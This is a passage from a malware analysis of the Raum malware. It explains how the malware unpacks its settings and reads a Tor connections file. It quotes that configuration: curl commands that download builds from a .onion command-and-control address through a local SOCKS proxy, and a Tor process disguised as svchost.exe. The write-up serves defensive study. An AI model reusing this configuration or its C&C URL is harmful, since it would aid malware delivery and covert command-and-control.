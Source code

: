 The malware decompresses the file in Raum's install path with the code loop shown in the image. These files are Raum's settings, which define:
- The URL of the C&C
- The URL .onion for C&C
- Necessary libraries such as curl.

<p align="center">
  <img src="https://raw.githubusercontent.com/mlwre/mlwre.github.io/master/downloads/Raum/img/Raum_004.png" alt="Mutex"/>
</p>

When everything is downloaded and unpacked to disk, Raum reads the connections file, where the settings for Tor reside.

```xml
<cfile>curl.exe</cfile>
<cargs>--socks5-hostname 127.0.0.1:9150 http://fofyxm5ifo5l6ttx.onion/signin/latest_build/ --output "</cargs>
<ccargs>--socks5-hostname 127.0.0.1:9150 http://fofyxm5ifo5l6ttx.onion/signin/latest_build_pre_reg/%s/%s/ --output "%s"</ccargs>
<pccargs>--socks5-hostname 127.0.0.1:9150 %s --output "%s"</pccargs>
<file>svchost.exe</file>
<args>--defaults-torrc "torrc-defaults" -f "torrc" DataDirectory "." --quiet</args>
```
This configuration is responsible for establishing Tor server options, using `CreateProcess` to launch the Tor service.
